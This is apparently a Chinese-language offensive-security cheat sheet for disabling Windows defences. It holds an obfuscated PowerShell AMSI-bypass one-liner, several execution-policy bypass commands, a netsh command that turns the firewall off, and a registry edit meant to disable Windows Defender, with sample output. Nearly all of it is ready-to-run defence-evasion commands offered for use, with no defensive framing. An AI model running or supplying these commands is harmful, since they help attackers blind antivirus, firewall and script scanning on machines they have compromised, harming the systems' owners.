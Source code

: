 # 绕过AMSI
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

# 绕过powershell执行策略
```
powershell -ep bypass

powershell –ExecutionPolicy bypass

powershell –c <cmd>

$env:PSExecutionPolicyPreference="bypass"
```


关闭防火墙和windows defend
1. 关闭防火墙：
```NetSh Advfirewall set allprofiles state off```

上面命令需要管理员权限，以run as administrator开启一个cmd命令行，然后输入当前域账号登录信息，即可以管理员身份开启cmd，执行上面命令

查看防火墙状态：
```
PS C:\Windows\system32> netsh advfirewall show currentprofile

Domain Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Ok.
```

2. 关闭windows defend

获取windefand状态
```
PS C:\ad> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Running  WinDefend          Windows Defender Service
```

以管理员身份运行下面powershll命令：
```reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpywar" /d 1 /t REG_DWORD```

需要重启计算机